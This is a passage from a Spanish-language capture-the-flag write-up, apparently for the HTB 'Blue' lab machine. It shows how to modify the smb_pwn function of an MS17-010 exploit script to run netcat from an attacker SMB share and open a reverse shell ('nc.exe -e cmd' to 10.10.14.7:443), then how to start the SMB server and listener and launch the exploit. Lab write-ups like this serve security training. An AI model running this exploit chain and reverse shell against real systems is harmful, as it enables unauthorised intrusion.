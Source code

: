 Y modificar la función `smb_pwn` con los siguientes cambios, donde se configurara la carga de un netcat para Windows y poder obtener el acceso al mismo tiempo que escuchamos desde nuestra maquina atacante con un netcat y por el puerto 443.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

  # Esta ejecucion de servicio nos permite cargar el archivo descargado de netcat para Windows y cargarlo en la maquina objetivo y ejecutarlo.
        service_exec(conn, r'cmd /c \\10.10.14.7\smbFolder\nc.exe -e cmd 10.10.14.7 443')
```

Preparamos los ambientes de trabajo para trabajar con netcat, del siguiente link [netcat windows](https://eternallybored.org/misc/netcat/) y lo descargamos en la versión `netcat 1.12`.

Al descomprimir estos archivos en el directorio de trabajo obtenemos los siguientes resultados.

![img](./img/blue/Pasted%20image%2020240626131739.png)

Pasar los archivos desde la maquina de trabajo a la maquina objetivo

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

Y también colocamos a escuchar un `netcat` en la maquina host

```bash
rlwrap nc -nlvp 443
```

Luego ejecutarnos nuestro Exploit para poder obtener los accesos a la maquina.

```bash
python2 zzz_exploit.py 10.10.10.40 samr
```

Finalmente se ha logrado obtener los privilegios de acceso dentro de la maquina Windows 7.
